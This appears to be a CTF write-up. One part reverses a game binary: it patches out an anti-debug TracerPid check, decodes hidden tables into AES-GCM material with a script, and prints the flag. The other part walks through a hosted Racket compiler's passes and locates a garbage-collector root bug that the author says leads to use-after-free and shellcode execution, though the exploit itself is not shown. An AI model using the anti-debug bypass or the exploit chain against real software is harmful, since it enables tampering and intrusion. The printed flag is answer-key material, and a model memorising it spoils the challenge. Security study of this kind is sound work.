`sub_D2C0` at 0xd2c0 reads `/proc/self/status`, scans for the tracerpid line, parses the integer after it, and returns nonzero when it is nonzero. it is called at startup and again periodically. i patched a local copy so it always reports clean. the patch is three bytes at file offset 0xd2c0
 
```text
0xd2c0: 41 57 41   ->   31 c0 c3
        push r15 ...      xor eax, eax
                          ret
```
 

this way i could insert any tracer and have it be marked absent, classic patch 

### object layout
 
the two globals that hold everything are the tower table and the enemy table, i recovered the strides and field offsets statically and then confirmed them in the constructor, which is the clearest place to read them because it assigns names and calls the vector init helper field by field
 
```text
tower table  qword_2D380
  8 entries, stride 0x90 (18 qwords)
  entry + 0x00  name pointer  (Eagle, Owl, Parrot,)
  entry + 0x60  1 vector  vector<uint16>
  entry + 0x78  2 vector vector<uint16>
 
enemy table  qword_2D080
  8 entries, stride 0x60 (12 qwords)
  entry + 0x00  name pointer  (Bug, Moth, Beetle,)
  entry + 0x30  1 vector  vector<uint16>
  entry + 0x48  2 vector vector<uint16>
```
 
the constructor confirms it, eagle is entry zero, and right after its name and stats it fills two vectors from rodata using a helper that allocates two bytes per element and memcpy from the source, which is a std vector of uint16 in everything but the type annotation, so eagle gets a first vector of length 7 at plus 0x60 and a second vector of length 5 at plus 0x78, next is the owl which is the very next entry at 0x2d410, which is 0x2d380 plus 0x90, so the stride is exactly what i measured. the enemy side is identical shape at 0x2d080 with stride 0x60, bug getting a first vector of length 7 and a second of length 2. the first vectors for a tower and the matching enemy of the same type index come from the same rodata source. eagle and bug both copy their first vector from the same address at length 7 so the first vectors are keyed by type, not by whether you are a bird or a bug
 
### the mechanism/two red herrings
 
there are two families of hidden vectors, the first vectors are read during gameplay by a controller only placement branch and the second vectors are never read during normal play and this split is meant to logically trap you!!
 
the controller branch lives in the tower placement function `sub_1D4E0` at 0x1d4e0 so that when you place a tower on a path tile with a controller, it validates the tower type, the nearest enemy type, and the tile coordinate against the first vectors, you can find this check/condition around 0x1e1c8 to 0x1e34c
 
```c
if ( ((unsigned int)coord_num ^ tower_w1) != tower_type + 1 || enemy_type + 1 != ((unsigned int)coord_num ^ enemy_w1) )
  //nothing
```
 
on success it does not print a flag but it prints a taunt built as the letters Hm followed by one extra m per path index so tile 0 says Hm, tile 3 says Hmmmm, and so on, and it goes through the transient message sink `sub_182C0` like any other floating game text. i spent a fuick ton of time chasing this branch because it is clearly the intended secret path, and it is genuinely satisfying to trigger but emits only mockery, also maybe its just instict from the ECSC 2025 to go down these. the coordinate encoding it validates is worth writing down because it unlocks the ordering rule where each path tile is an x y pair, and the branch turns it into a number by concatenating x with a two digit zero-padded y.
 
```text
coord_num(x, y) = int(str(x) + str(y).zfill(2))
(0,10)  -> 10
(3,7)   -> 307
(19,17) -> 1917
```
 
there are 49 path tiles and for path index i the required type is i mod 8, and the first vector entry for that type at column i over 8 satisfies a very clean relation, used chatgpt for validation and all 49 tiles passed well.
 
```python
type_i = i % 8
first_vector[type_i][i // 8] == coord_num(path[i]) ^ (type_i + 1)
```
 
red herring number two is `sub_1B5F0` at 0x1b5f0, which `sub_1D4E0` calls, because it writes and reads a file named `proc_tmp.txt`, computes a pile of djb2 hashes over decimal strings, runs a ten thousand iteration hashing loop, and produces a floating point accumulator with a sqrt and a sin times cos term
 
```c
acc = sqrt(fabs(digit + acc)) + sinx * cosx + acc
```
 
it looks like a key schedule, but.. its not. at the very end it just memcpy the selected tower first vector and returns that. the tail proves it copies from tower base plus 0x60, the first vector, never plus 0x78

 
```text
1cfc1 lea r12, qword_2D380
1cfcc lea rax, [rbp+rbp*8]
1cfd1 shl rax, 4
1cfd5 add rax, r12
1cfd8 mov rbx, [rax+68h]
1cfdc sub rbx, [rax+60h]
1d01b lea rax, [r12+rax+60h]
1d027 mov rsi, [rax]
1d02a mov rbx, [rax+8]
1d03c call memcpy
```
 
with the help of Gemini I reconstructed the whole hash routine in python and matched its `proc_tmp.txt` output byte for byte for tile (0, 10), the first lines being 0, then 10, then hash_a=177621, then the ten thousand iteration stream. and matching all of it just told me that this function is a very elaborate way to hand me back data i already have, lmao
 
### the primitive
 
so the first vectors are decodable and prove an ordering rule, but they are not the flag, since they teach you to read the hidden tables in path order, cycling type through 0 to 7. hence the flag has to be the second vectors, because they are the only storage left, they are copied in at startup, and nothing ever reads them. the second vectors are 52 uint16 values total, 36 across the eight towers and 16 across the eight enemies
 
```text
0 Eagle    [22581, 9461, 53159, 20794, 5593]
1 Owl      [35417, 32244, 48505, 40123, 9984]
2 Parrot   [44453, 7279, 60514, 14916, 20153]
3 Heron    [10610, 16355, 4331, 2948, 54]
4 Falcon   [49663, 11851, 9043, 49724]
5 Penguin  [32181, 65143, 32344, 15615]
6 Flamingo [30239, 50969, 23891, 6576]
7 Toucan   [19650, 443, 51968, 34369]
 
0 Bug         [440, 18036]
1 Moth        [34064, 18161]
2 Beetle      [21306, 31871]
3 Wasp        [23020, 3075]
4 Caterpillar [43495, 32062]
5 Locust      [39826, 26395]
6 Spider      [27563, 35898]
7 Mantis      [49039, 60046]
```
 
52 words is 104 bytes, which is a very reasonable size for a key plus an iv plus a tag plus a short ciphertext. here i should have re read challenge desc but instead i tried to derive a decoder from the binary, which does not even have one, oh well. 
 
### the decode chain
 
now the challenge desc says aes-gcm. so the second vectors are aes-gcm material, and the ordering rule the first vectors taught me is how you lay them out, so read the tables in path order, cycling type 0 to 7, and within each type append the tower vector then the enemy vector, then read down the columns, build it twice, once tower first and once enemy first
 
```js
function pathOrder(kind) {
  const out = []
  let j = 0
  while (j < 7) {
    let t = 0
    while (t < 8) {
      const seq = kind === 'enemyTower' ? enemy[t].concat(tower[t]) : tower[t].concat(enemy[t])
      if (j < seq.length) {
        out.push(seq[j])
      }
      t = t + 1
    }
    j = j + 1
  }
  return out
}
```
 
encode each stream as big endian uint16, which gives two 104 byte buffers and then split them the obvious way, the key is the first 32 bytes of the enemy first stream, the iv is the first 16 bytes of the tower first stream, and the tag is the next 16 bytes of the tower first stream
 
1. build both streams and encode big endian
```js
function wordsBE(words) {
  const out = Buffer.alloc(words.length * 2)
  words.forEach((w, i) => out.writeUInt16BE(w, i * 2))
  return out
}
 
const towerPath = wordsBE(pathOrder('towerEnemy'))
const enemyPath = wordsBE(pathOrder('enemyTower'))
```
 
2. split the material
```js
const key = enemyPath.subarray(0, 32)
const iv = towerPath.subarray(0, 16)
const tag = towerPath.subarray(16, 32)
```
 
3. take the ciphertext from the tower first stream. and this very very ugly because the ciphertext is bytes 32 to 70 plus a single trailing byte at index 71, skipping index 70, that skipped byte is a zero, the high half of the big endian word 0x0036, and the real final ciphertext byte is the low half 0x360  so the last plaintext bearing byte is smuggled as the low byte of the last word and the padding zero above it is dropped, lmao?
```js
const ciphertext = Buffer.concat([
  towerPath.subarray(32, 70),
  towerPath.subarray(71, 72)
])
```
 
4. run aes-256-gcm and let the tag authenticate it, with no more data
```js
const decipher = crypto.createDecipheriv('aes-256-gcm', key, iv)
decipher.setAuthTag(tag)
const flag = Buffer.concat([decipher.update(ciphertext), decipher.final()])
console.log(flag.toString('utf8'))
```
  
```text
key = 01b88510533a59eca9e79b926babbf8f467446f17c7f0c037d3e671b8c3aea8e
iv  = 58358a59ada52972c1ff7db5761f4cc2
tag = 24f57df41c6f3fe32e4bfe77c71901bb
ct  = cfa7bd79ec6210eb23537e585d53cb00513a9cbb3a440b84c23c3cff19b0864115d927004eb936
```
  
```text
bbb{pH3w_The_c0Ntro11er_I5_nOT_bR0k3n!}
```
  
## pwn - mapllvm (11 solves)

<Callout>
this chall was a x86-64 compiler written in racket, hosted so you send source, it compiles and runs the result, and a flag sits at /flag. the language has no i/o, henced reading the flag requires native code execution in the compiled program. the bug is in the gc, values passed as call arguments are never registered as gc roots, so a collection triggered admits a call frees a value that is about to be returned, so the dangling pointer gets used again by a later allocation, which gives us an UAF leading to a type confusion, an OOB write to a closure code label, and a jump into shellcode smuggled through integer literals
</Callout>

this challenge was extremely fun, mainly because you usually dont find a compiler exploitation challenge in most CTFs, and I researched compilers alot in the last couple of months and it was really nice to finally pwn one! despite the challenge name, mapllvm, it has nothing to do with LLVM, which was kind of dissapointing but eh. it is a small compiler for a schemelike language, written in racket, and its task is no different than from any other compiler, lower program straight to x86-64 assembly, assemble it with nasm, link it against a custom hand written garbage collector.

the runner, ```run.py``` looks as follows

```python
import os
import subprocess
import sys
import tempfile

COMPILER = "/app/dist/bin/mapllvm-compiler"
GC_OBJ   = "/app/gc.o"

print("Welcome to the MapLLVM hosted compiler!")
print("Please input your program, we will compile and run it for you!")

code = input(">>> ")
if len(code) > 2000:
    print("Code too long!")
    sys.exit(1)

with tempfile.TemporaryDirectory() as tmp:
    src = os.path.join(tmp, "prog.src")
    asm = os.path.join(tmp, "prog.asm")
    obj = os.path.join(tmp, "prog.o")
    exe = os.path.join(tmp, "prog")

    with open(src, "w") as f:
        f.write(code)

    r = subprocess.run([COMPILER, src, asm], capture_output=True, timeout=10)
    if r.returncode != 0:
        print("Compilation failed!")
        sys.exit(1)

    r = subprocess.run(["nasm", "-f", "elf64", "-o", obj, asm], capture_output=True, timeout=10)
    if r.returncode != 0:
        print("Assembly failed!")
        sys.exit(1)

    r = subprocess.run(["ld", "-o", exe, obj, GC_OBJ], capture_output=True, timeout=10)
    if r.returncode != 0:
        print("Linking failed!")
        sys.exit(1)

    try:
        r = subprocess.run([exe], capture_output=True, timeout=5)
        if r.stdout:
            sys.stdout.buffer.write(r.stdout)
        print(f"Exit code: {r.returncode}")
    except subprocess.TimeoutExpired:
        print("Program timed out!")
```

it reads one line, max 200 bytes, writes it to ```prog.src```, runs the compiler to ```prog.asm```, assembles with nasm to prog.o, links with ld against gc.o, and then runs the binary with a five second timeout

## compiler design

```shell
λ ls
Dockerfile  compiler  flag  gc.o  nsjail.cfg  run.py  work
λ tree compiler
compiler
├── closure_conversion.rkt
├── common.rkt
├── control_flow.rkt
├── datatype_encoding.rkt
├── emit_instructions.rkt
├── function_calls.rkt
├── imperative_transform.rkt
├── main.rkt
├── uniquify.rkt
└── validation.rkt

1 directory, 10 files
```

so its a classic multi pass design within the ```compiler/``` directory, driven by ```main.rkt```, and compile runs eight passes in order

```racket title="main.rkt"
#lang racket

(require "common.rkt"
    "uniquify.rkt"
    "closure_conversion.rkt"
    "datatype_encoding.rkt"
    "imperative_transform.rkt"
    "function_calls.rkt"
    "control_flow.rkt"
    "emit_instructions.rkt"
    "validation.rkt")

(define (compile code)
  (let* ([_ (run-validation code)]
         [unique-ir (run-uniquify code)]
         [closures-ir (run-closure-conversion unique-ir)]
         [encoded-ir (run-datatype-encoding closures-ir)]
         [imperative-ir (run-imperative-transform encoded-ir)]
         [jumps-ir (run-function-call-translation imperative-ir)]
         [cf-ir (run-control-flow jumps-ir)]
         [asm (run-emit-instructions cf-ir)])
    asm))

(define args (current-command-line-arguments))

(if (< (vector-length args) 2)
    (displayln "Usage: main.rkt <source-file> <out-file>")
    (let* ([src-file (vector-ref args 0)]
           [out-file (vector-ref args 1)]
           [src-code (file->string src-file)]
           [code  (read (open-input-string src-code))]
           [prog (compile code)])
      (display-to-file prog out-file #:exists 'replace)))
```

## pipeline explained

### common.rkt and shared definitions

```common.rkt``` holds shared definitions, including the register assignment that the rest of the backend relies on, where ```rbp``` is the frame base, ```rsp``` is the frame top, ```r8``` is the root stack top, ```r9``` is the root stack bottom, ```rax``` is the return value and jump target. also, it names the runtime symbols ```lmapllvm_alloc``` and ```lmapllvm_panic```

```racket title="common.rkt"
#lang racket

(provide source-lang-ops
         closure-ir-ops
         encoded-ir-binops
         encoded-ir-predops
         fresh-var-id
         fresh-code-label
         var-id?
         code-label?
         ERROR-CALL-ARITY-MISMATCH
         ERROR-TYPE-MISMATCH
         ERROR-OOB-ACCESS
         ERROR-OOM
         PANIC-RUNTIME-SYMBOL
         ALLOC-RUNTIME-SYMBOL
         call-stack-top-register
         call-stack-bottom-register
         root-stack-top-register
         root-stack-bottom-register
         return-value-jump-target-register
         word-size
         ENTRYPOINT-LABEL
         predop?
         binop?)

(define source-lang-ops '(* + - < > <= >= = != not cons car cdr integer? boolean? empty? unit? vector? function? cons? make-vec vec-len vec-set! vec-get panic!))
(define closure-ir-ops `(,@source-lang-ops make-closure closure-env-get closure-env-set closure-arity closure-label))
(define encoded-ir-binops '(+ * - bit-and bit-or bit-xor bit-lshift bit-rshift))
(define encoded-ir-predops '(= != < > <= >=))

(define (fresh-var-id)
  (gensym 'v))
(define (fresh-code-label)
  (gensym 'l))

(define (var-id? x) (and (symbol? x) (string-prefix? (symbol->string x) "v")))
(define (code-label? x) (and (symbol? x) (string-prefix? (symbol->string x) "l")))

(define ERROR-CALL-ARITY-MISMATCH 2)
(define ERROR-TYPE-MISMATCH 3)
(define ERROR-OOB-ACCESS 4)
(define ERROR-OOM 5)

(define PANIC-RUNTIME-SYMBOL 'lmapllvm_panic)
(define ALLOC-RUNTIME-SYMBOL 'lmapllvm_alloc)

(define ENTRYPOINT-LABEL 'lentrypoint)

(define call-stack-top-register 'rsp)
(define call-stack-bottom-register 'rbp)
(define root-stack-top-register 'r8)
(define root-stack-bottom-register 'r9)
(define return-value-jump-target-register 'rax)

(define word-size 8)

(define (predop? predop)
  (and (member predop encoded-ir-predops)
      #t))

(define (binop? binop)
  (member binop encoded-ir-binops))
```


### validation.rkt

```validation.rkt``` checks the program against the grammar, with two important nuances, ```panic!``` is rejected from user source, and integer literals are constrained to int61 (between minus 2 to the 60 and 2 to the 60 minus 1)

```
(define (validate-e e)
  (match e
    [`(let ([,xs ,es] ...) ,ebody)
     #:when (and (unique-list? xs)
                 (andmap symbol? xs))
     (andmap validate-e (cons ebody es))]
    [`(if ,e1 ,e2 ,e3) (andmap validate-e (list e1 e2 e3))]
    [`(letrec ([,xs (lambda (,xss ...) ,es)] ...) ,ebody)
     #:when (and (unique-list? xs)
                 (andmap unique-list? xss)
                 (andmap symbol? xs)
                 (andmap (lambda (xs) (andmap symbol? xs)) xss))
     (andmap validate-e (cons ebody es))]
    [`(lambda (,xs ...) ,e)
     #:when (and (andmap symbol? xs)
                 (unique-list? xs))
     (validate-e e)]
    [x #:when (symbol? x) #t]
    ['empty #t]
    ['unit #t]
    [b #:when (boolean? b) #t]
    [n
     #:when (integer? n)
     (int61? n)]
    [`(begin ,es ...)
     (andmap validate-e es)]
    [`(,op ,es ...)
     #:when (and (member op source-lang-ops)
                 (not (equal? op 'panic!)))
     (andmap validate-e es)]
    [`(,es ...) (andmap validate-e es)]
    [_ #f]))
```

mentioned clause :

```racket
[`(,op ,es ...)
 #:when (and (member op source-lang-ops)
             (not (equal? op 'panic!)))
 (andmap validate-e es)]
```

this clause only accepts programs only if the operator is in ```source-lang-ops``` and not in ```panic!```. for the int64 integers check,

```racket
[n
 #:when (integer? n)
 (int61? n)]
```

the pattern variable n matches any value, but ```(integer? n)``` restricts it to integers, so the rest of the clause is ```(int61? n)```

### uniquify.rkt alpha renaming

```uniquify.rkt``` alpha renames every binding to a fresh name so later passes do not have the need to reason about shadowing

```racket title="uniquify.rkt"
(define (uniquify e vids)
  (match e
    [`(let ([,xs ,es] ...) ,ebody)
     (define xids (for/list ([_ xs]) (fresh-var-id)))
     (define bindings (for/list ([xid xids] [e es]) `(,xid ,(uniquify e vids))))
     (define new-vids (for/fold ([vids-acc vids]) ([x xs] [xid xids])
                        (dict-set vids-acc x xid)))
     `(let ,bindings ,(uniquify ebody new-vids))]
    [`(if ,e1 ,e2 ,e3)
     `(if ,(uniquify e1 vids) ,(uniquify e2 vids) ,(uniquify e3 vids))]
    [`(begin ,es ...) `(begin ,@(for/list ([e es]) (uniquify e vids)))]
    [`(call ,es ...) `(call ,@(for/list ([e es]) (uniquify e vids)))]
    [`(letrec ([,xs ,es] ...) ,ebody)
     (define xids (for/list ([_ xs]) (fresh-var-id)))
     (define new-vids (for/fold ([vids-acc vids]) ([x xs] [xid xids])
                        (dict-set vids-acc x xid)))
     (define bindings (for/list ([xid xids] [e es]) `(,xid ,(uniquify e new-vids))))
     `(letrec ,bindings ,(uniquify ebody new-vids))]
    [`(lambda (,xs ...) ,ebody)
     (define xids (for/list ([_ xs]) (fresh-var-id)))
     (define new-vids (for/fold ([vids-acc vids]) ([x xs] [xid xids])
                        (dict-set vids-acc x xid)))
     `(lambda ,xids ,(uniquify ebody new-vids))]
    [`(,op ,es ...)
     #:when (member op source-lang-ops)
     `(,op ,@(for/list ([e es]) (uniquify e vids)))]
    [n #:when (integer? n) e]
    [b #:when (boolean? b) e]
    ['unit e]
    ['empty e]
    [x #:when (symbol? x) (dict-ref vids x)]))
```

alpha renaming (or uniquification) as already mentioned simplifies later compiler passes because each variable has exactly one bnding, which eliminates a lot of concerns about lexical scope and shadowing. for example, without shadowing:

```racket
(let ([x 1])
  (let ([x 2])
    x))
```

here the compiler must determine which ```x``` each occurence refers to, but after alpha renaming:

```racket
(let ([v1 1])
  (let ([v2 2])
    v2))
```

each variable name identifies exactly one binding, which makes transformations such as substitution, inlining, closure conversion, register allocation and optimization much simpler.

### lamba lowering in closure_conversion.rkt

in ```closure_conversion.rkt```, lambas are lowered to heap closures, meaning that in this function every lambda is turned into a make closure with a code label, an arity, a captured enviroment and it rewrites free variables into closure-env-get reads. it also lowers every call into an explicit dispatch that checks the callee is a function, checks the arity, then jumps through the closure code label:

```racket
(define (process-call f es)
  (define cname (fresh-var-id))
  `(let ([,cname ,(process f)])
     (if (function? ,cname)
         (if (= (closure-arity ,cname) ,(+ 1 (length es)))
             (call (closure-label ,cname) ,cname ,@(map process es))
             (panic! ,ERROR-CALL-ARITY-MISMATCH))
         (panic! ,ERROR-TYPE-MISMATCH))))
```

### operator expansion and root insertion in datatype_encoding.rkt

```datatype_encoding.rkt``` is the pass that decides how values are represented at runtime. its first job is to expand every high level operator into low level code that respects the tag scheme, so an operator like ```+``` becomes shift, add, shift and an accessor like ```vec-get``` becomes a sequence of tag checks and a ```mem-read```. the second job of this is kinda easy to miss from static analysis first but matters a lot, it is a pas which inserts the gc roots. the runtime uses a shadow stack of roots, and a value is only findable by the collector if a ```push-root``` was emitted for it, hence two spots emit ```push-root``` and every param is pushed at entry

```racket
[`(module (define (,fs ,xss ...) ,es) ... ,emain)
 (define defs (for/list ([f fs] [xs xss] [e es])
                `(define (,f ,@xs) (begin ,@(for/list ([x xs]) `(push-root ,x))
                                          ,(process-e e)))))
 `(module ,@defs ,@generated-defs ,(process-e emain))]
```

and every let binding is pushed right after it is computed

```racket
[`(let ([,xs ,es] ...) ,ebody)
 (define bindings (for/list ([x xs] [e es])
                    (let ([tmp-name (fresh-var-id)])
                      `(,x (let ([,tmp-name ,(process-e e)]) (begin (push-root ,tmp-name)
                                                                    ,tmp-name))))))
 `(let ,bindings ,(process-e ebody))]
```

the reason why this works for ordinary program is that everything a function holds in a named binding, a parameter or a let variable, ends up on the root stack, so any collection can walk the stack and find it. a value that is only somewhen computed as an inline arg to a call is never bound by a let and is not a parameter, so no root is emitted for it

### flattening to statements in imperative_transform.rkt

```imperative_transform.rkt``` turns every nested expression tree to a flat sequence of simple statements, therefore after this pass, every operation reads only names or literals and writes to a single destination, there are no nested subexpressions left. the core of this process is ```process-value-notail``` which computes a value into a named destination, hoisting every operand into its own fresh temp first 

```racket
(define (process-value-nontail val outer-binding)
  (match val
    [`(call ,vs ...)
     (define xs (for/list ([_ vs]) (fresh-var-id)))
     `(begin ,@(for/list ([x xs] [v vs])
                 (process-value-nontail v x))
             (mov ,outer-binding (call ,@xs)))]
    [x
     #:when (var-id? x)
     `(mov ,outer-binding ,x)]
    [n
     #:when (integer? n)
     `(mov ,outer-binding ,n)]
    [`(mem-read ,v1 ,v2)
     (define x1 (fresh-var-id))
     (define x2 (fresh-var-id))
     `(begin ,(process-value-nontail v1 x1)
             ,(process-value-nontail v2 x2)
             (mov ,outer-binding (mem-read ,x1 ,x2)))]
    [`(,binop ,v1 ,v2)
     #:when (member binop encoded-ir-binops)
     (define x1 (fresh-var-id))
     (define x2 (fresh-var-id))
     `(begin ,(process-value-nontail v1 x1)
             ,(process-value-nontail v2 x2)
             (mov ,outer-binding (,binop ,x1 ,x2)))]))
```

statements are handled by ```process-st``` which does the exact same hoisting for three operands of ```mem-write``` and leaves ```push-root``` untouched

```racket
(define (process-st s)
  (match s
    [`(mem-write ,v1 ,v2 ,v3)
     (define x1 (fresh-var-id))
     (define x2 (fresh-var-id))
     (define x3 (fresh-var-id))
     `(begin ,(process-value-nontail v1 x1)
             ,(process-value-nontail v2 x2)
             ,(process-value-nontail v3 x3)
             (mem-write ,x1 ,x2 ,x3))]
    [`(push-root ,x)
     `(push-root ,x)]
    [value (process-value-nontail value (fresh-var-id))]))
```

the reason why this pass even exists is that the backend cannot emit ```(mem-write ptr 0 (+ x y))``` directly, since an x86 instruction takes at most simple operands, not a whole subexpression as an argument, so a nested form like ```(mem-write ptr 0 (+ x y))``` becomes a straight line, where you compute ```ptr``` into a temp, compute ```0``` into a temp, compute ```(+ x y)``` into a temp (which, funnily enough, first lands ```x``` and ```y``` in temps) and then a single ```mem-write``` of three names. now, each intermediate result has a name, which is what the frame allocater needs later to hand to a stack slot. two things to take with you from here, firstly, the last clause of ```process-st``` shows that a value used only for effect, such as an integer literal siting inside a ```begin```, is still run through ```process-value-nontail``` with a fresh dest, hence each literal becomes its own ```(mov tmp n)``` rather than being folded away. secondly, because every operand is thrown into a named temp, the number of stack slots is large and predictable!

### stack frames and the calling convention in function_calls.rkt

```function_calls.rkt``` assigns a concrete stakc slot to every name and emits the real calling convention which includes the shadow stack root bookkeeping, and this is where the abstract ```(mov v <>)``` and ```(call <>)``` forms become frame relative memory, and jumps. each function first lays out its frame, parameters get slots counting up from ```rbp```, the base pointer, and every other named temporary gets the next free slot as the frame is being walked

```racket
(define (process-func label xs body)
  (define initial-offsets (for/fold ([offsets #hash()])
                                    ([x (reverse xs)]
                                     [i (in-range 1 (+ 1 (length xs)))])
                            (dict-set offsets x (* word-size i))))
  (define offsets (alloc-frame body initial-offsets))
  (define fs (get-frame-size offsets))
  `(define ,label (begin (mov rsp (- rsp ,fs))
                         ,(process-tail body offsets))))

(define (extend-offsets offsets x)
  (if (dict-has-key? offsets x)
      offsets
      (dict-set offsets x (* word-size (+ 1 (dict-count offsets))))))
```

a name ```v``` lives at ```[rbp - 8*k]``` for some slot index ```k```, and the prologue drops ```rsp``` by the frame size. ```rbp``` is the frame base, ```rsp``` is the frame top(pointer as usual), ```r8``` and ```r9``` are the top and bottom of the gc root stack, and ```rax``` is the return value and jump target (here im just repeating the assignments from ```common.rkt```). roots are pushed by growing the stack root downward,

```racket
(define (emit-push-root x)
  `(begin (mov ,root-stack-top-register (- ,root-stack-top-register ,word-size))
          (mov (,root-stack-top-register - 0) ,x)))
```

```racket
(define (emit-return r)
  `(begin (mov ,return-value-jump-target-register ,r)
          (mov ,root-stack-top-register ,root-stack-bottom-register)
          (mov ,call-stack-top-register ,call-stack-bottom-register)
          (jump (rbp - -8))))

(define (emit-tail-call rf rs fs)
  `(begin (mov ,root-stack-top-register ,root-stack-bottom-register)
          (mov ,call-stack-top-register ,call-stack-bottom-register)
          ,@(for/list ([r (reverse rs)] [i (in-range 1 (+ 1 (length rs)))])
              `(mov (,call-stack-bottom-register - ,(+ fs (* word-size i))) ,r))
          (mov ,return-value-jump-target-register ,rf)
          ,@(for/list ([r (reverse rs)] [i (in-range 1 (+ 1 (length rs)))])
              `(mov (,call-stack-bottom-register - ,(* word-size i))
                    (,call-stack-bottom-register - ,(+ fs (* word-size i)))))
          (jump ,return-value-jump-target-register)))
```

```(mov r8 r9)``` resets the root stack top to the frame bottom, which drops every root the frame pushed in one instruction. ```emit-return``` does this while the return value is already in ```rax``` and ```emit-tail-call``` does it before it even moves the args into place. a non tail call is pretty different, because it saves a return label and the old ```rbp```, copies the args into the callee frame, and links the root stack by pushing the old ```r9``` and setting ```r9``` to ```r8```, then restores all of it after the call returns

```racket
(define (emit-non-tail-call w rf rs fs)
  (define return-addr-label (fresh-code-label))
  `(begin
     (mov (,call-stack-bottom-register - ,(+ fs word-size)) ,return-addr-label)
     (mov (,call-stack-bottom-register - ,(+ fs (* 2 word-size))) ,call-stack-bottom-register)
     ,@(for/list ([r (reverse rs)] [i (in-range (length rs))])
         `(mov (,call-stack-bottom-register - ,(+ fs (* 3 word-size) (* i word-size))) ,r))
     (mov ,return-value-jump-target-register ,rf)
     (mov ,call-stack-bottom-register (- ,call-stack-bottom-register ,(+ fs (* 2 word-size))))
     (mov ,call-stack-top-register ,call-stack-bottom-register)
     (mov ,root-stack-top-register (- ,root-stack-top-register ,word-size))
     (mov (,root-stack-top-register - 0) ,root-stack-bottom-register)
     (mov ,root-stack-bottom-register ,root-stack-top-register)
     (return-label ,return-addr-label (jump ,return-value-jump-target-register))
     etcetc))
```

at any collection the runtime can walk ```r8``` up to the region end and find exactly the live named values, this works for ordinary code because every value a frame cares about was either a parameter or a let binding, both pushed as roots by ```datatype_encoding.rkt```, however this also includes an invariant on the arg path, an inline call argument is computed into a frame temp and moved straight into the callee slots, and its never pushed as a root, so during the window where that argument is the return value in flight, ```emit-return``` and ```emit-tail-call``` have already run ```(mov r8 r9)``` and the value only exists in ```rax``` or an arg slot, invisible to gc.

### linearizing control flow in control_flow.rkt

this function flattens the last of the tree structure. after ```function_calls.rkt``` there are still nested ```if``` and ```begin``` forms, and this pass/function turns them into labeled blocks, comparisions, jumps and all that which x86 understands

```racket
(define (handle-pred pred if-label else-label)
  (match pred
    [`(begin ,sts <> ,pred) (append (for/fold ([instrs-acc '()])
                                               ([st sts])
                                       (append instrs-acc (handle-st st)))
                                     (handle-pred pred if-label else-label))]
    [`(,predop ,rloc0 ,rloc1) #:when (predop? predop) `((cmp ,rloc0 ,rloc1)
                                                        (jump-if ,predop ,if-label)
                                                        (jmp ,else-label))]))

(define (handle-st st)
  (match st
    [`(if ,pred ,st1 ,st2) (let ([if-label (fresh-code-label)]
                                 [else-label (fresh-code-label)]
                                 [final-label (fresh-code-label)])
                             `(,@(handle-pred pred if-label else-label)
                                (start ,if-label)
                                ,@(handle-st st1)
                                (jmp ,final-label)
                                (start ,else-label)
                                ,@(handle-st st2)
                                (start ,final-label)))]
    [`(return-label ,label (jump ,rloc)) `((jmp ,rloc) (start ,label))]
    [_ (list st)]))
```

something like  ```(if (< a b) t1 t2)``` becomes ```(cmp a b)```, a conditional ```(jump-if < if-label)```, an unconditional ```(jmp else-label)```, then the two blocks introduced by ```(start if-label)``` and ```(start else-label)```. a statement position ```if``` also allocates a ```final-label``` so both arms rejoin and the ```return-label``` form from a non tail call is split into the jump that performs the call and the ```(start label)``` that marks where control comes back

### x86-64 emission and the runtime wrapper in emit_instructions.rkt

in this pass the final nasm is printed, each flat instruction is lowered to concrete x86 and it wraps trhe entire program in a preamble and postamble that supply ```_start```, the allocator, the collector trampoline and the exit handlers. memory access is lowered in an interesting way, all objects are word arrays, so a ```mem-read``` or ```mem-write``` becomes a scaled index by 8 which is staged through scratch registers

```racket
[`(mov ,wloc (mem-read ,rloc1 ,rloc2))
  (match-let* ([i1 (handle-mov `(mov ,tmpreg0 ,rloc1))]
              [i2 (handle-mov `(mov ,tmpreg1 ,rloc2))]
              [i3 (format "mov ~a, QWORD [~a*8 + ~a]" tmpreg0 tmpreg1 tmpreg0)]
              [i4 (handle-mov `(mov ,wloc ,tmpreg0))])
    <>)]

(define (handle-memwrite memwrite-instr)
  (match-let* ([`(mem-write ,rloc0 ,rloc1 ,rloc2) memwrite-instr]
                [i1 (handle-mov `(mov ,tmpreg0 ,rloc0))]
                [i2 (handle-mov `(mov ,tmpreg1 ,rloc1))]
                [i3 (handle-mov `(mov ,tmpreg2 ,rloc2))]
                [i4 (format "mov QWORD [~a + ~a*8], ~a" tmpreg0 tmpreg1 tmpreg2)])
    <>))
```

```(mem-write ptr idx val)``` compiles to ```mov QWORD [ptr + idx*8], val``` which is why every object index in the earlier passes is a word index, moving a value that is in neither a register goes through a secret scratch register

```
(define secret-tmpreg 'r11)

(define (handle-mov mov-instr)
  (match mov-instr
    [`(mov ,wloc ,rloc) #:when (or (register? wloc) (register? rloc)) (format "mov ~a, ~a" (rloc->str wloc) (rloc->str rloc))]
    [`(mov ,wloc ,rloc)
      (match-let* ([i1 (handle-mov `(mov ,secret-tmpreg ,rloc))]
                  [i2 (format "mov ~a, ~a" (rloc->str wloc) secret-tmpreg)])
        <>)]))
```

storing a literal into a stack slot is a memory to memory move with an imm source, so it cannot be a single instruction, hence it becomes ```mov r11, imm64``` (the bytes ```49 bb``` and then the eight raw bytes of the immediate) followed by ```mov [slot], r11``` and that immediate sits in ```.text```. the preamble sets up the two stacks and enters the program

```racket
_start:
  call gc_init
  mov r8, rax
  mov r9, rax
  mov rax, program_end
  push rax
  push 0
  mov rbp, rsp
  jmp lentrypoint
```

```gc_init``` returns the base of the root stack which loaded into ```r8``` and ```r9```, then it pushes ```program_end``` as a final return address and a zero, sets rbp to the current rsp, and jumps to the entrypoint, which looks like your normal stack calling convention. the postamble supplies the runtime the compiler calls into

```racket
lmapllvm_alloc:
  mov rdi, [rbp - 8]
  push rbp
  push r9
  push r8
  push rdi
  call gc_alloc
  test rax, rax
  jz .alloc_retry
  jmp .alloc_complete
.alloc_retry:
  call invoke_gc
  mov rdi, [rsp]
  call gc_alloc
  test rax, rax
  jz oom
.alloc_complete:
  pop rdi
  pop r8
  pop r9
  pop rbp
  mov rdi, [rbp + 8]
  jmp rdi

invoke_gc:
  mov rdi, r8
  call gc_collect
  ret

 lmapllvm_panic:
  mov rdi, [rbp - 8]
  mov rax, 0x3c
  syscall

oom:
  mov rdi, 5
  mov rax, 0x3c
  syscall
```

